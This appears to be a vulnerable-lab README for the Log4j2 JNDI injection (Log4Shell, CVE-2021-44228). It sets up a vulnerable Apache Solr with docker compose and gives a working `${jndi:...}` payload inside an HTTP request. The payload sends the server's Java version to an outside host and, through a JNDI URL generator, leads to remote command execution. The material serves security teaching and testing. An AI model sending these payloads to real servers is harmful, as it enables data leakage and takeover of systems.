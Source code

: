# Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Because the target JDK version is below 8u191, we can use `rmi://` or `ldap://` to run the Java bytecode directly.

Use [web-chains](https://github.com/java-Chains/web-chains) to generate a malicious JNDI URL, then replace it in the request above to exploit the CVE-2021-44228:

![](2.png)

As you can see, `touch /tmp/success` is succesful executed:

![](3.png)
